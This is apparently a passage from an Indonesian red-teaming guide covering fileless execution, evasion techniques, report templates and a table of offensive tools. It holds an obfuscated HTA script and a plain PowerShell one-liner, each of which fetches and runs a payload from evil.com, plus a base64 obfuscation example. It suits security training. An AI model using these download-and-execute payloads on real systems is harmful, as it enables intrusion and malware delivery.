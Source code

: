 🔥 **Contoh Payload Fileless Execution (Windows HTA Attack)**  
```html
<script>eval(atob('cG93ZXJzaGVsbCAtbm9wIC13IGhpZGRlbiAtYyAiSUVYKE5ldy1PYmplY3QgTmV0LldlYlJlcXVlc3QpLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vZXZpbC5jb20vcGF5bG9hZC5wc2gnKSI='))</script>
```

---

## 🛠️ 6. Pelaporan & Dokumentasi Serangan  

🔹 **Format Laporan Red Teaming**  
✅ **Ringkasan Serangan** (Metode, tujuan, dampak).  
✅ **Langkah Eksekusi** (Setiap tahap dengan bukti).  
✅ **Rekomendasi Mitigasi** (Solusi agar tidak bisa dieksploitasi lagi).  

📌 **Contoh Template Pelaporan:**  
```yaml
Serangan: Phishing & Credential Dumping  
Target: employee@target.com  
Payload: Malicious macro (CVE-2023-XXXX)  
Eksploitasi: Mencuri NTLM Hash & Pass-the-Hash attack  
Mitigasi: Implementasi MFA & disable NTLM Authentication  
```

---

## 🔥 7. Tools Red Teaming  

| **🛠️ Kategori** | **🔹 Tools** |
|----------------|------------|
| 🕵️ Reconnaissance | Shodan, SpiderFoot, TheHarvester |
| 🎯 Exploitation | Metasploit, SQLmap, BloodHound |
| 🏴 Lateral Movement | CrackMapExec, Mimikatz, Rubeus |
| 🔥 C2 Frameworks | Cobalt Strike, Empire, Sliver |
| 🛡️ Evasion | Veil, SharpShooter, Obfuscation.io |

---

```md
# 🔥 Red Teaming - Perbandingan Teknik & Eksekusi 🔥  

## 🛠️ 1. Perbandingan Metode Red Teaming  

| **Aspek** | **Pentesting Tradisional** | **Red Teaming** |
|-----------|--------------------------|----------------|
| **Fokus** | Mengidentifikasi celah keamanan teknis | Mensimulasikan serangan dunia nyata |
| **Pendekatan** | Langsung mengeksploitasi kerentanan | Social engineering, persistence, evasion |
| **Durasi** | Beberapa hari/minggu | Beberapa bulan |
| **Interaksi dengan Defender** | Terbatas, sering terjadwal | Continuous, stealth-based |
| **Tujuan** | Mengungkap kelemahan sistem | Mengetes kesiapan tim pertahanan (Blue Team) |

---

## 🛠️ 2. Perbandingan Teknik Evasion (Bypassing Detection)  

| **Teknik** | **Deskripsi** | **Kelebihan** | **Kekurangan** | **Contoh** |
|------------|--------------|--------------|---------------|------------|
| **Obfuscation** | Menyembunyikan payload menggunakan encoding (Base64, XOR) | Mudah diterapkan | Bisa di-decode oleh antivirus | `echo YWJjZGVmCg== | base64 -d` |
| **Fileless Execution** | Menjalankan kode langsung dari RAM, tanpa menyentuh disk | Sulit dideteksi oleh AV | Tidak persisten setelah reboot | `powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://evil.com/payload.ps1')"` |
```